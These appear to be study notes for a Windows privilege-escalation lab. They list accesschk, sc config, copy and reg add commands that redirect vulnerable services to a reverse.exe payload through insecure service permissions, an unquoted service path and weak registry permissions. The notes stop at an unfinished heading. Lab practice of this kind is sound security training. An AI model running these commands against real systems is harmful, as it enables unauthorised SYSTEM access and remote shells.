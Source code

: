 ##SHERLOCK => https://github.com/sherlock-project/sherlock

##Service Exploits - Insecure Service Permissions
1) Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service: C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc    
2) Query the service for getting service privileges: sc qc daclsvc    
3) Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe: sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""    
4) Setup local listener and run service: net start daclsvc    

##Service Exploits - Unquoted Service Path
1) Define services and run sc qc [service name], fuul ninary path C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe    
2) Using accesschk.exe for access rights: C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"    
3) Copy the reverse.exe executable to this directory and rename it Common.exe: copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"    
4) Start listener and run service: net start unquotedsvc    

##Service Exploits - Weak Registry Permissions
1) Query register service: sc qc regsvc    
2) Using accesschk.exe: C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc    
3) Overwrite registry key: reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f    
4) Start listener and run service: net start regsvc    

##Service Exploits - Insecure Service Executables
